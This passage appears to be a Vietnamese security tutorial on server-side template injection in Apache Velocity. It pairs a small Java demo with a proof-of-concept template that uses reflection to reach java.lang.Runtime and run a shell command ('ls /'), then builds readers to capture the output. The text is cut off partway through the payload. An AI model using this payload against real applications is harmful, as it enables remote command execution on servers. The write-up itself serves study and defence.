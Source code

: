 - Mình sẽ dựa trên blog này để phân tích.

### Apache Velocity Server-Side Template Injection

- Như search ở trên thì đây là một template để hiển thị nội dung của java từ apache cũng giống như bao thư viện khác


```
import java.io.StringWriter;
import org.apache.velocity.Template;
import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.VelocityEngine;

public class VelocityTest {

    public static void main(String[] args) throws Throwable {

        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.init();
        Template t = velocityEngine.getTemplate("template.vm");
        VelocityContext context = new VelocityContext();
        context.put("name", "l3mnt2010");
        StringWriter writer = new StringWriter();
        t.merge(context, writer);
        System.out.println(writer);

    }

}

```

- Ta có thể thấy source khá tương tự ở trên nêu thì khi mình nhập vào thì sẽ hiển thị nội dung name + l3mnt2010:
Đây là [source](https://github.com/l3mnt2010/demoVelocity) : 

- Và cũng giống như những template khác thì `velocity` cũng có thể truy cập được với các cú pháp của nó và ta chú ý đến `#set($message = "l3mnt2010")
`
 - Thì biến $message được gán giá trị là `l3mnt2010`, nếu từ riêng lẻ thì khó có thể thực thi mã với os trên template này nên ta sử dụng kết hợp với các lớp hàm hàm khởi tạo của java luôn:
POC:
 
 ```
 #set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("ls /"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

 ```